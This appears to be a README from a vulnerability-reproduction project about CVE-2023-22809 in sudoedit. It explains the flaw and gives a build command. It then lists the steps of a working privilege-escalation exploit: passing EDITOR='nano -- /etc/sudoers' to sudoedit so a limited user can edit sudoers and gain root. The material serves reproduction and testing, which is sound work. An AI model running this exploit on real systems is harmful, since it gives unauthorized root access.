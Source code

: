 # CVE-2023-22809

### Description
sudoedit in Sudo before 1.9.12p2 mishandles extra arguments passed in the user-provided environment variables (SUDO_EDITOR, VISUAL, and EDITOR), allowing a local attacker to append arbitrary entries to the list of files to process which can lead to privilege escalation.
The problem exists because a user-specified editor may contain a "--" argument that defeats a protection mechanism, e.g., an EDITOR='vim -- /path/to/extra/file' value.

### Command to run
```shell
python -m decret --number 2023-22809 --release bullseye --directory sudoedit-2023 --selenium
```

### Simple testing method

```shell
echo "toto ALL=(ALL:ALL) sudoedit /etc/hosts" >> /etc/sudoers
su toto
cd
id
sudoedit /etc/hosts # Operation accepted, because added in /etc/sudoers
sudo nano /etc/passwd # Operation denied
sudoedit /etc/sudoers # Operation denied
EDITOR="nano -- /etc/sudoers" sudoedit /etc/hosts # Operation accepted
# change to toto ALL=(ALL:ALL) ALL
sudo nano /etc/passwd # Operation accepted
```
You can edit the file and then get root access.
